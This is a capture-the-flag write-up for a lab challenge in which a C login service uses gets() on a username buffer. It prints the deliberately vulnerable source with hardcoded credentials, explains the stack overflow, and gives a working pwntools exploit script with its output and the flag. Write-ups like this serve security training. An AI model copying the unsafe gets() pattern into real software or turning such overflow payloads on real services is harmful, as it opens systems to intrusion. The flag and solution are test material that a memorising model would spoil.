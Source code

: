 ```yaml
---
sticker: emoji//1f6a9
---
```


# CONTEXT
---


Cipher asked me to create the most secure vault for flags, so I created a vault that cannot be accessed. You don't believe me? Well, here is the code with the password hardcoded. Not that you can do much with it anymore.

**Note:** To start the target machine, click the Start Machine button:

You can use the following command to connect to the machine:

`nc 10.10.61.110 1337`

Download the source code from [here](https://drive.google.com/file/d/1kYIR2JEfLfbzifHgpGBj2xuBgGxNLp46/view?usp=sharing).

This challenge was originally a part of the Hackfinity Battle 2025 CTF Event.


Let's begin.


# EXPLOITATION
---

So, we know there's a binary running on port `1337`, let's use netcat to interact with it:

```
nc 10.10.61.110 1337
  ______ _          __      __         _ _
 |  ____| |         \ \    / /        | | |
 | |__  | | __ _  __ \ \  / /_ _ _   _| | |_
 |  __| | |/ _` |/ _` \ \/ / _` | | | | | __|
 | |    | | (_| | (_| |\  / (_| | |_| | | |_
 |_|    |_|\__,_|\__, | \/ \__,_|\__,_|_|\__|
                  __/ |
                 |___/

Version 1.0 - Passwordless authentication evolved!
==================================================================

Username: test
Wrong password! No flag for you.
```

As seen, it seems to be asking for a password, luckily for us, we got the source code of the file:

```c
#include <stdio.h>
#include <string.h>

void print_banner(){
	printf( "  ______ _          __      __         _ _   \n"
 		" |  ____| |         \\ \\    / /        | | |  \n"
		" | |__  | | __ _  __ \\ \\  / /_ _ _   _| | |_ \n"
		" |  __| | |/ _` |/ _` \\ \\/ / _` | | | | | __|\n"
		" | |    | | (_| | (_| |\\  / (_| | |_| | | |_ \n"
		" |_|    |_|\\__,_|\\__, | \\/ \\__,_|\\__,_|_|\\__|\n"
		"                  __/ |                      \n"
		"                 |___/                       \n"
		"                                             \n"
		"Version 1.0 - Passwordless authentication evolved!\n"
		"==================================================================\n\n"
	      );
}

void print_flag(){
	FILE *f = fopen("flag.txt","r");
	char flag[200];

	fgets(flag, 199, f);
	printf("%s", flag);
}

void login(){
	char password[100] = "";
	char username[100] = "";

	printf("Username: ");
	gets(username);

	// If I disable the password, nobody will get in.
	//printf("Password: ");
	//gets(password);

	if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
		print_flag();
	}
	else{
		printf("Wrong password! No flag for you.");
	}
}

void main(){
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	// Start login process
	print_banner();
	login();

	return;
}
```

This binary is vulnerable to `Buffer Overflow`:

1. **Buffer Overflow in `username`**:
    - The `gets(username)` function reads input without bounds checking, allowing overflow into adjacent memory.
    - The `password` buffer (initialized as empty) is adjacent to `username` on the stack. Overflowing `username` can overwrite `password`.
        
2. **Stack Layout**:
    - `password[100]` is allocated first (lower memory address).
    - `username[100]` is allocated next (higher memory address).
    - Writing beyond 100 bytes in `username` overflows into `password`.
        
3. **Login Bypass**:
    - The login check requires:
        - `username == "bytereaper"`
        - `password == "5up3rP4zz123Byte"`.
    - By crafting a payload that sets `username` to `"bytereaper"` (with proper null termination) and overflows into `password` with the correct value, we can satisfy both conditions.


Knowing all that, we can use this python script:

```python
#!/usr/bin/env python3
from pwn import *
import re

def main():
    # Remote host and port (updated for this target)
    host = "10.10.61.110"
    port = 1337

    # Enable pwntools logging so we see:
    # [+] Opening connection to 10.10.61.110 on port 1337: Done
    # [+] Receiving all data: Done (XXB)
    # [*] Closed connection to 10.10.61.110 port 1337
    context.log_level = "info"

    # 1) Connect to the remote service
    conn = remote(host, port)

    # 2) Build the payload
    #    - "bytereaper\x00" makes strcmp(username, "bytereaper") succeed
    #    - 101 "A" bytes overflow into the password buffer
    #    - "5up3rP4zz123Byte" is the hardcoded password the program expects
    payload = (
        b"bytereaper\x00"       # username + null terminator
        + b"A" * 101            # overflow filler up to password check
        + b"5up3rP4zz123Byte"   # correct password string
    )

    # 3) Wait until the remote binary prompts "Username:"
    conn.recvuntil(b"Username:")

    # 4) Send the payload (pwntools will automatically append "\n")
    conn.sendline(payload)

    # 5) Read everything the server sends back (banner + flag or error)
    #    We give a small timeout to avoid hanging indefinitely
    response = conn.recvall(timeout=2).decode(errors="ignore")

    # 6) Close the connection
    conn.close()

    # 7) Extract the flag from the response.
    #    The flag is expected to match THM{…}, so we search with a regex.
    match = re.search(r"THM\{.*?\}", response)
    if match:
        # Print only the flag, prefixed so it's clear in the output
        print(f"Flag: {match.group(0)}")
    else:
        # If no flag was found, print the full response for debugging
        print("No flag found. Full response:\n")
        print(response)

if __name__ == "__main__":
    main()
```

Once we run the script, we get:

```python
python3 exploit.py
[+] Opening connection to 10.10.61.110 on port 1337: Done
[+] Receiving all data: Done (24B)
[*] Closed connection to 10.10.61.110 port 1337
Flag: THM{password_0v3rfl0w}
```

Got our flag:

```python
THM{password_0v3rfl0w}
```

![](Pasted image 20250605184529.png)

